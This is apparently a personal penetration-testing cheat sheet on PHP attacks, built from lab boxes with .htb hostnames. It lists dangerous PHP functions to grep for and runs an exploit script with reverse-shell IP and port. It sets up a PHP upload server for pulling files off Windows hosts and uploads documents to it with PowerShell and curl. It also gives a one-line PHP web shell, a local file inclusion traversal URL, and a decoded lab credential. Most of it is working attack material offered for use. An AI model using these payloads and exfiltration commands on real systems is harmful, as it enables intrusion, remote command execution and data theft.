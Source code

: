 ## PHP Interesting Function List

```
find . -name "*.php" | xargs grep "<function-name>"

    exec
    shell_exec
    system
    passthru
    pcntl_exec
    popen
    proc_open
    eval
    preg_replace (with /e modifier)
    create_function
    file_get_contents
    file_put_contents
    readfile
    include
    require
    require_once
    include_once

```

--> url decode:

```
php -r 'echo urldecode("srvadm%40quick.htb:%26ftQ4K3SGde8%3F@printerv3.quick.htb\n");'
```

--> Run php script with arguments:

```
php 47299.php --host=192.168.245.136 --ssl=false --user=nagiosadmin --pass=admin --reverseip=192.168.49.245 --reverseport=13000
```


## Upload Server (Windows Exfil)

1. Get Apache running on kali with php support

2. Save to /var/www/

```php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

3. Upload!!!

```powershell
powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
```

```bash
curl -F file=@clip.txt http://127.0.0.1/upload.php
```

## ----- 

# PHP execute system command (Reverse Shell)
```
<?php system($_REQUEST['COMMAND']); ?>
```


# Check for locale file inclusion on a page(windows box):

```
# this can work if you something like "include($_GET["page"]" in your php code since this will call anything that the a user will put in as a "page" variable
# if allow_url_include is set to "0" in php.ini, then RFI is disabled, but LFI is still a thing

http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```